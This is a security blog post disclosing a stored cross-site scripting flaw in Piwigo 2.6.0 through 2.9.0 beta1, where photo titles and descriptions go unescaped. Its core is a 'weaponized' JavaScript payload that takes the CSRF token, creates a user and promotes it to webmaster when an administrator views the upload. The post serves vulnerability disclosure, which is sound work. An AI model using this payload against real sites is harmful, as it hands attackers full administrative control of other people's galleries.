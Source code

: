 ```yaml
---
title: "Stored XSS in Piwigo 2.6.0 -> 2.9.0 beta1"
layout: post
tags: [bugs]
excerpt: "A weaponized stored XSS example"
---
```


Back in October 2016 I reported a stored cross-site scripting (XSS) vulernability in the Piwigo photo gallery CMS to the maintainer. The `Title` and `Description` fields of uploaded photos are not being properly sanitized or escaped by the Community plugin or Piwigo Core before being reflected back in the application response.

<img src="/assets/images/bugs/piwigo/xss1-1.png" alt="piwigo-xss-1-1" width="900"/>

<img src="/assets/images/bugs/piwigo/xss1-2.png" alt="piwigo-xss-1-2" width="900"/>

## Privesc to Webmaster via Stored XSS

From an attackers perspective this stored XSS is great because a low privileged user can upload a photo which needs to be approved by an administrator. If the Community plugin is installed and enabled then non administrative users are able to exploit this vulnerability and execute arbitray code as an administrator. 

To weaponise this stored XSS, lets create two XHR requests:
- The first request will create a new user 
- The second request will promote the new user from a standard user account to a webmaster (highest privileges). 


```javascript
// grab the csrf token sent with each form submitted for creating users and updating their profiles
var csrf_token = $("input[name = pwg_token]").val();
// set username and password details
var username = "phish";
var password = "password123";
// set piwigo url
var piwigo_URL = "http://<target>";
// create a new XMLHttpRequest to create a new user
xhr = new XMLHttpRequest();
var create_User_URL = piwigo_URL+"/piwigo/ws.php?format=json&method=pwg.users.add";
xhr.open("POST", create_User_URL, true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		// retrieve user id that our newly created user was assigned
		var user_Details = JSON.parse(xhr.responseText);
		var user_ID = user_Details.result.users[0].id;
		// promote user privs to webmaster
		xhr2 = new XMLHttpRequest();
		var update_User_Priv_URL = piwigo_URL+"/piwigo/ws.php?format=json&method=pwg.users.setInfo";
		xhr2.open("POST", update_User_Priv_URL, true);
		xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
		var update_User_Priv = "user_id="+user_ID+"&email=&status=webmaster&level=0&enabled_high=on&nb_image_page=15&theme=elegant&language=en_GB&recent_period=7&pwg_token="+csrf_token+"&group_id=-1&expand=false&show_nb_hits=false&show_nb_comments=false";
		xhr2.send(update_User_Priv);
	}
}
var create_User = "username="+username+"&password="+password+"&email=&pwg_token="+csrf_token;
xhr.send(create_User);
```

Now when an administrator logs in and views the malicious upload, the stored XSS payload will trigger and we can login with our new webmaster account.